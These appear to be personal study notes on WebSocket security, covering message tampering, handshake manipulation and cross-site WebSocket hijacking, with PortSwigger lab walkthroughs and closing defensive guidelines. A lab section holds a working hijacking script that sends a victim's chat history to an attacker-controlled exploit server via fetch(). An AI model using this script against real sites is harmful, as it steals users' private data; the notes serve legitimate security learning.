


# WebSocket Vulnerabilities

## What is a WebSocket?

WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.

WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

<div style="display: flex; justify-content: center; width: 100%;">
<div style="background-color: white; display: inline-block; width: 70%;">
  
</div>
</div>

## Manipulating WebSockets Vulnerabilities

As well as manipulating WebSocket messages like we did before with HTTP requests, it is sometimes necessary to manipulate the WebSocket handshake that establishes the connection.

There are various situations in which manipulating the WebSocket handshake might be necessary:
- It can enable you to reach more attack surface.
- Some attacks might cause your connection to drop so you need to establish a new one.
- Tokens or other data in the original handshake request might be stale and need updating.

In principle, practically any web security vulnerability might arise in relation to WebSockets:
- User-supplied input transmitted to the server might be processed in unsafe ways, leading to vulnerabilities such as SQL injection or XML external entity injection.
- Some blind vulnerabilities reached via WebSockets might only be detectable using out-of-band (OAST) techniques.
- If attacker-controlled data is transmitted via WebSockets to other application users, then it might lead to XSS or other client-side vulnerabilities.

### Messages

The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:
```json
{"message":"Hello Carlos"}
```
The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:
```html	
<td>Hello Carlos</td>
```
In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:
```json	
{"message":""}
```

### Handshake

As well as modifying the contents of WebSocket messages, it is also possible to modify the handshake that is used to initiate the connection. These vulnerabilities tend to involve design flaws such as:
- Misplaced trust in HTTP headers to perform security decisions, such as the `X-Forwarded-For` header (identify the IP address of the client).
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

Fighting against an aggressive but flawed XSS filter.
- Sometimes websockets can't be resend, so it must be intercepted and forwarded to the server.

TODO: Lab not available [XSS](https://portswigger.net/web-security/learning-paths/websockets-security-vulnerabilities/manipulating-the-websocket-handshake-to-exploit-vulnerabilities/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)

## Cross-Site Scripting

Some WebSockets security vulnerabilities arise when an attacker makes a cross-domain WebSocket connection from a web site that the attacker controls. This is known as a cross-site WebSocket hijacking attack, and it involves exploiting a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. The attack often has a serious impact, allowing an attacker to perform privileged actions on behalf of the victim user or capture sensitive data to which the victim user has access.

**What is cross-site WebSocket hijacking?**

Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

A successful cross-site WebSocket hijacking attack will often enable an attacker to:

- **Perform unauthorized actions masquerading as the victim user**. As with regular CSRF, the attacker can send arbitrary messages to the server-side application. If the application uses *client-generated* WebSocket messages to perform any sensitive actions, then the attacker can generate suitable messages cross-domain and trigger those actions.
- **Retrieve sensitive data that the user can access**. Unlike with regular CSRF, cross-site WebSocket hijacking gives the attacker two-way interaction with the vulnerable application over the hijacked WebSocket. If the application uses *server-generated* WebSocket messages to return any sensitive data to the user, then the attacker can intercept those messages and capture the victim user's data.

### Performing cross-site WebSocket hijacking

Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:
```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
> Note 
> 
> The `Sec-WebSocket-Key` header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:
- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.

**Lab**

Here we have to locate the WebSocket handshake which retrieves all teh chat history from the server. We can see that the client sends a `READY` websocket message to the server and the server sends the chat history to the client (one wss for each message). This is found in the HTTP request to the server. We can see two `/chat`, one is for the HTML web page and the other is the handshake. Important, note that the handshake doesn't have any CSRF token (it's vulnerable to CSRF).

We also can see that the session cookie has the attribute `SameSite=None` which means that the cookie will be sent with the request to the server. Other options are: 
- `SameSite=Strict`: it is only sent if the site for the cookie matches the site shown in the browser's address bar.
- `SameSite=Lax`: allows the cookie to be sent with top-level navigations, such as when a user follows a link to your site from another site.
  
If the attribute had been set to any of the other options, then the attacker would not be able to send the handshake to the server.

Then we will use our own web page to send the following script opening a WebSocket connection:
```html
<script>
    var ws = new WebSocket('wss://ID.web-security-academy.net/chat')
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-ID.exploit-server.net/exploit', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Here we are sending the `READY` message to the server, which will trigger the WebSocket to send the chat history of the victim user to the attacker's page. So we use the website URL with `wss://` to open the WebSocket connection. Then we create a listener `onmessage` to receive the chat history and send it to the attacker's page.



TODO: finish the lab, it worked with my own chat history, but it didn't work with the chat history of the victim user.

## Secure WebSocket connections

To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:

- Use the `wss://` protocol (WebSockets over TLS).
- Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
- Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
- Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and cross-site scripting.